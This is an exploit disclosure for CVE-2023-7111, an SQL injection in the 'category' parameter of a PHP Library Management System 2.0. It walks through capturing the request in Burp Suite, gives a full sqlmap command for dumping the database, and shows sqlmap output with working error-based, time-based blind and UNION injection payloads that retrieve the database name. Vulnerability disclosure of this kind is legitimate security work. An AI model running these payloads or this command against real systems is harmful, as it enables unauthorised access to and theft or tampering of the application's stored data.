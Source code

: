 # CVE-2023-7111_Library-Management-System_SQL_Injection-3
+ **Exploit Title:** CVE-2023-7111_Library-Management-System_SQL_Injection-3
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7111
  
## References: 
+ **CVE-2023-7111:** https://vuldb.com/?id.249006
+ https://www.cve.org/CVERecord?id=CVE-2023-7111

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'category' in "/libsystem/index.php?category=1".
Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the application: "http://localhost/libsystem/index.php"
+ Select the Category from combobox.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
GET /libsystem/index.php?category=1 HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Cookie: PHPSESSID=9p3s52249uv1qh0sp602kn39ul
Referer: http://localhost/libsystem/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
```

+ Use sqlmap to exploit. In sqlmap, use 'category' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p category --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: category (GET)
    Type: error-based
    Title: MySQL OR error-based - WHERE or HAVING clause (FLOOR)
    Payload: category=-7874 OR 1 GROUP BY CONCAT(0x717a7a6b71,(SELECT (CASE WHEN (3499=3499) THEN 1 ELSE 0 END)),0x71716a7a71,FLOOR(RAND(0)*2)) HAVING MIN(0)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: category=(CASE WHEN (6694=6694) THEN SLEEP(5) ELSE 6694 END)

    Type: UNION query
    Title: Generic UNION query (random number) - 8 columns
    Payload: category=-5673 UNION ALL SELECT 7143,7143,7143,CONCAT(0x717a7a6b71,0x58617168457a765948785a58544179556e546b714668456e76436d48635046707750794a64734b61,0x71716a7a71),7143,7143,7143,7143-- -
---
[12:46:50] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:46:50] [INFO] fetching current database
current database: 'libsystem'
```

+ current database: `libsystem`
![3](https://github.com/h4md153v63n/CVEs/assets/5091265/2f9bc202-cb7c-4622-ac38-69252d03bfe5)



